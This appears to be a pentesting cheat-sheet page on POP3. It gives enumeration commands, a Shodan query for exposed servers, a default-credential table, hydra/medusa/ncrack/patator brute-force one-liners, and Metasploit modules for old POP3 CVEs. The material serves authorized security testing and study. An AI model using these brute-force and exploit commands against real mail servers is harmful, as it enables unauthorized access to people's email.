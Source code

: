 ```yaml
---
title: POP3 Pentesting Best Practices
categories: [pentesting protocols,pop3]
tags: [pentesting,pop3,best practicies]
comments: true
---
```


# POP3

> POP3 usually uses ports 110, 995
{: .prompt-tip }

# What is POP3?

POP3 stands for Post Office Protocol. As the name suggests, it allows you to use your email inbox like a post office – emails are downloaded onto your computer and removed from the mail server.

When accessing your emails using the POP3 protocol, a copy of the emails is created and stored locally on your computer. The originals are usually, but not always, removed from the mail server. In other words, emails are tied to the specific device. Once the email is downloaded onto one device (and removed from the mail server), it cannot be accessed by another email client or device.

```bash
PORT     STATE SERVICE               VERSION
110/tcp  open  pop3                  Zimbra Collabration Suite pop3d
```

# POP3 Pentesting

| <img src="https://www.shodan.io/static/img/favicon.png" alt="https://www.shodan.io/static/img/favicon.png" width="20px" /> Shodan search query : |
| --- |
| port:110, 995 |

>## Enumeration

### Banner Grabbing

```bash
telnet 10.10.x.x 110
nc -nv 10.10.x.x 110
nmap -p110 --script=banner 10.10.x.x
nmap -p110 --script=pop3-ntlm-info 10.10.x.x
msf > use auxiliary/scanner/pop3/pop3_version #MetasploitFramework
openssl s_client -connect <IP>:995 -crlf -quiet
```

![Untitled](/assets/img/pitcures/pop3/pop3.png)

### Capabilities

```bash
#All are default scripts
nmap --script "pop3-capabilities or pop3-ntlm-info" -sV -port 110 192.168.x.x
# Retrieve POP3 server capabilities (CAPA, TOP, USER, SASL, RESP-CODES, LOGIN-DELAY, PIPELINING, EXPIRE, UIDL, IMPLEMENTATION)  
nmap -v -sV --version-intensity=5 --script pop3-capabilities -p T:110 192.168.x.x
```

![Untitled](/assets/img/pitcures/pop3/pop31.png)

![Untitled](/assets/img/pitcures/pop3/pop32.png)

The `pop3-ntlm-info` plugin will return some "**sensitive**" data (Windows versions).

## POP3 Commands

```bash
POP commands:
  USER uid           Log in as "uid"
  PASS password      Substitue "password" for your actual password
  STAT               List number of messages, total mailbox size
  LIST               List messages and sizes
  RETR n             Show message n
  DELE n             Mark message n for deletion
  RSET               Undo any changes
  QUIT               Logout (expunges messages if no RSET)
  TOP msg n          Show first n lines of message number msg
  CAPA               Get capabilities
```

## Capturing POP3 Packages

```bash
msf > use auxiliary/server/capture/pop3 #MetasploitFramework
```

## POP3 Credentials

### Authentication Checking (classical credentials)

| USER | PASS |
| --- | --- |
| admin | admin |
| root | root |
| root | toor |

### Brute Forcing

```bash
hydra -l USERNAME -P /path/to/passwords.txt -f <IP> pop3 -V
hydra -S -v -l USERNAME -P /path/to/passwords.txt -s 995 -f <IP> pop3 -V
hydra -t 2 -L users.list -P passwords.list -M 10.10.x.x.list -s 110 pop3
# Try to bruteforce POP3 accounts
Nmap: pop3-brute –script-args userdb=users.list,passdb=passwords.list
nmap --script pop3-brute --script-args pop3loginmethod=SASL-LOGIN -p T:110 IP
nmap --script pop3-brute --script-args pop3loginmethod=SASL-CRAM-MD5 -p T:110 IP
nmap --script pop3-brute --script-args pop3loginmethod=APOP -p T:110 IP
msf > use auxiliary/scanner/pop3/pop3_login #MetasploitFramework
medusa -t 2 -T 2 -U users.list -P passwords.list -H 10.10.x.x.list -n 110 -M pop3
ncrack -g CL=2 -U users.list -P passwords.list -iL 10.10.x.x.list -p pop3:110 -oA output
patator pop3_login host=10.10.x.x user=FILE1 password=FILE0 0=users.list 1=passwords.list -x ignore:fgrep=’incorrect password or account name’
```

## POP3 Vulnerabilities

```bash
#Seattle Lab Mail 5.5 [CVE-2003-0264]
msf > use exploit/windows/pop3/seattlelab_pass #MetasploitFramework
Exploit-DB: 638.py, 643.c, 646.c
#Cyrus – Gentoo 2006.0 Linux 2.6 [CVE-2006-2502]
msf > use exploit/linux/pop3/cyrus_pop3d_popsubfolders #MetasploitFramework
```